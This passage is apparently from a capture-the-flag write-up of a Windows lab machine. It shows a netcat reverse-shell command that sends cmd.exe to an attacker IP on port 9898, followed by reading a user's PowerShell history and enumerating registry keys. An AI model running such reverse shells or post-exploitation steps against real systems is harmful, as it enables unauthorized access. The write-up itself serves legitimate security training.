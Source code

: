 And then launch nc.exe again to have a more comfortable shell instead of the awkward Invoke-Command syntax:

```powershell
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }
```

![img](/images/writeup-control/12.png)

Looking for interesting files, the only thing that sticks out is Hector’s’ PowerShell history located in AppData:

```aaa
C:\Users\Hector\AppData>dir C:\Users\Hector\AppData\roaming\microsoft\windows\powershell\psreadline
dir C:\Users\Hector\AppData\roaming\microsoft\windows\powershell\psreadline
 Volume in drive C has no label.
 Volume Serial Number is C05D-877F

 Directory of C:\Users\Hector\AppData\roaming\microsoft\windows\powershell\psreadline

11/25/2019  12:04 PM    <DIR>          .
11/25/2019  12:04 PM    <DIR>          ..
11/25/2019  02:36 PM               114 ConsoleHost_history.txt
               1 File(s)            114 bytes
               2 Dir(s)  43,519,021,056 bytes free

C:\Users\Hector\AppData>
```

It contains the following commands:

```aaa
C:\Users\Hector\AppData>more C:\Users\Hector\AppData\roaming\microsoft\windows\powershell\psreadline\ConsoleHost_history.txt
more C:\Users\Hector\AppData\roaming\microsoft\windows\powershell\psreadline\ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list

C:\Users\Hector\AppData>
```

There are two commands that query the registry, replicating the first one returns this output:

```aaa
C:\Users\Hector\AppData>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Hector\AppData> get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list


Property      : {BootDriverFlags, CurrentUser, EarlyStartServices, PreshutdownOrder...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Control
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
SubKeyCount   : 121
View          : Default
Handle        : Microsoft.Win32.SafeHandles.SafeRegistryHandle
ValueCount    : 11
Name          : HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control
```

[localhost]: PS C:\Users\Hector\Documents> whoami